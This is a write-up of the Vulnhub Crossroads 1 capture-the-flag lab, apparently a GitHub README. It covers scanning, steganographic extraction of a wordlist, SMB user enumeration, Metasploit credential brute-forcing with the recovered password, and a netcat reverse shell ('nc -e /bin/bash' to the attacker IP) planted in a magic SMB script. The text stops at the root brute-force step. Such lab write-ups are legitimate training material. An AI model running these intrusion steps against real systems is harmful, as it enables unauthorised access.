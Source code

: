 # Walkthrough-Crossroads
Walkthrough vulnhub Crossroads 1  machine

Hi guys, through this write-up we'll be talking about all the different process we walkthrough to capture all the flags of Vulnhub Crossroads1 machine.

The machine can be downloaded on this link https://download.vulnhub.com/crossroads/crossroads_vh.ova.
Concerning the virtualisation engine, I used Virtualbox, of course it's the one that is recommended for this machine.

**Here's is the description given from Vulnhub about the machine:**

* get flags
* difficulty: easy
* about vm: tested and exported from virtualbox. dhcp and nested vtx/amdv enabled. you can contact me by email for troubleshooting or questions.
* This works better with VirtualBox rather than VMware

**Now that all have been said, let's start:**

After starting the machine in virtualbox, we have to look for our target Ip address, so to that we use the command **netdiscover**

![d](https://user-images.githubusercontent.com/63744686/116478438-98007300-a86d-11eb-839f-80d83ad68e55.png)

As you can see on the image, our target Ip address is **192.168.56.107**
but we'll be using as attacker Ip address **192.168.56.108**

Now then, let's poursue by enumerating services and ports that the target machine is running by using **nmap** command

**nmap -A -Pn- 192.168.56.107**

![d1](https://user-images.githubusercontent.com/63744686/116479614-7b653a80-a86f-11eb-94b6-de2fc8c2f305.png)


With the output of nmap command, it's shows that the target machine is running http server and smb server as well.
Knowing that, we'll continue our journey by web enumeration in other to gather more information and see if there isn't some interesting files on the web server.
so to that, we use **dirb** command to check eventuals files that might be stored on the web server

**dirb http://192.168.56.107**

![d2](https://user-images.githubusercontent.com/63744686/116480687-4fe34f80-a871-11eb-9c0d-2877c158a156.png)

So looking on image, it's possible to see that, there are somes files on the web server. While checking the content of the robot.txt file, it's mentioned inside that
the route /crossroad.png is disabled. Of course, our first impression might be to suppose that file should contain the first flag, but looking at it, it's not

![d3](https://user-images.githubusercontent.com/63744686/116487908-a441fb80-a880-11eb-8502-a1c2812943f1.png)

So then, as I said earlier, I first download the file and try to see if it's possible that something was hiden inside. To that I used a python package called **stegoveritas** to extract everthing that the picture might hide. If you do want to install the package stegoveritas on your python environnement, you just have to do **pip3 install stegoveritas** 
and there you go.
**stegoveritas crossroads.png**

![d4](https://user-images.githubusercontent.com/63744686/116488509-0c451180-a882-11eb-9d4e-1fa13ba80b4f.png)

When the file is done extracting, you'll find in your curent directory a new directory created and named **results**. Inside this one, there's another directory named keepers in which there are somes files, and among those files we find a wordlist, with it what we might expect is that soon it should come in handy while try to do a brute force attack.
bellow the wordlist file captured

![d5](https://user-images.githubusercontent.com/63744686/116489113-9e014e80-a883-11eb-92b6-816f0a52ea79.png)

Now let's save this wordlist in our repository

![d6](https://user-images.githubusercontent.com/63744686/116489011-5da1d080-a883-11eb-9570-ecc135123f74.png)

After that, we are sure there is no more interesting thing on the side, we can head to smb server side. There, we start as usually with the smb server enumeration.
First, we'll check the shared directories on the server their access permission by using **smbmap** command

**smbmap -H 192.168.56.107**

![d7](https://user-images.githubusercontent.com/63744686/116489436-7bbc0080-a884-11eb-9199-1c311ef0a597.png)

As we can see on the image, all the shared directories have **no access** permission a guest user. So we have to look for a user who has somehow an access to one of the shared 
directories. To that, we can use **enum4linux** or nmap smb enumeration script, but in my case I used enum4linux to find another user who has access to the smb server. Below the command that used

**enum4linux 192.168.56.107**

![d8](https://user-images.githubusercontent.com/63744686/116489998-ddc93580-a885-11eb-9bb1-e36702fe5d37.png)

The image beyond shows a fragment of the output of enum4linux command, and we can see on it that there's another user called **albert** on the target machine. Knowing that, let's try to find his credentials and enumerate the access he might have on the shared directories. We can use a banch of tools to brute force smb creds but in my case I used metasploit **auxiliary scanner/smb/smb_login**. 
Using the metasploit auxiliary I just mentionned, we must set our options as shown on the image below

![d9](https://user-images.githubusercontent.com/63744686/116490646-6f857280-a887-11eb-9235-918a7d2b89ad.png)

At the of the execution we'll find as result

![d10](https://user-images.githubusercontent.com/63744686/116490749-a9567900-a887-11eb-88bb-b3b1ae50d987.png)

Now that we have the user albert creds, we can try to enumerate the kind of access he has on the shared directories with the command below

**smbmap -H 192.168.56.107 -u albert -p bradley1**

![d11](https://user-images.githubusercontent.com/63744686/116490831-ec185100-a887-11eb-8e58-ebbc670bd6b3.png)

The output of the command shows that the user albert has to **smbshare** directory with the permissions **Read and Write**, and had access on his local directory with the permission **Read only**

So then let's have access to his local directory and check what's inside

**smbmount //192.168.56.107/albert smb -o username=albert**

![d12](https://user-images.githubusercontent.com/63744686/116491274-07379080-a889-11eb-9ea4-2ac60181188f.png)

Inside the local directory of albert, is a file called **user.txt** which contain our first flag

![d13](https://user-images.githubusercontent.com/63744686/116491371-39e18900-a889-11eb-9d37-9225856b34c9.png)

While having a look to the smbshare directory, we notice that there is a smb.conf file inside. Looking at it, it's mentionned in the smbshare configuration that a user albert might be able to execute a magic script called **smbscript.sh**

![d14](https://user-images.githubusercontent.com/63744686/116491828-516d4180-a88a-11eb-8871-3e9c235223f7.png)

Knowing that, we can take advantage of it to create a **reverse TCP shell** and have an access to target machine. For that, all we have to do is used **netcat** command and create a reverse shell to the attacker machine, by simply puting in the smbscript.sh this line below

**echo nc -e /bin/bash 192.168.56.108 4444 > smbscript.sh** (we shoud mentionned that the Ip address here is the Ip of the attacker machine)

![d15](https://user-images.githubusercontent.com/63744686/116492301-744c2580-a88b-11eb-9aa5-2d0ad79fb51a.png)

Before sending the payload to target machine, we have to start listening on the port we mentionned in the smbscript.sh, using the command **nc -lvp 4444**.
After that, we are ready to go!!

![d16](https://user-images.githubusercontent.com/63744686/116492547-094f1e80-a88c-11eb-887c-daac03023fb2.png)

On the attacker server we'll have this

![d17](https://user-images.githubusercontent.com/63744686/116492635-4c10f680-a88c-11eb-889a-57f13ade122f.png)

The command that is highlighted on the is used to gain a stable shell terminal on our machine.

By checking the local directory of the user albert, we can see there's a script called **beroot**, when we execute that script, it's ask to us to enter a password for the root. 
Here is where we'll use the wordlist we retrieved form the crossroads image to brute force the script beroot. I write for that a small script to brute the script, which I put on this repository for those who are interested.

To upload the script and the wordlist on the target machine, we just have to use a python module http.Server to create a local http server and then use wget tool to download it on the target machine. Know that you'll have to process a little bit your wordlist before using it in the script or rather use the wordlitst I put on this repository

![sc](https://user-images.githubusercontent.com/63744686/116493430-487e6f00-a88e-11eb-8f9d-e6d2a83ffc1d.png)



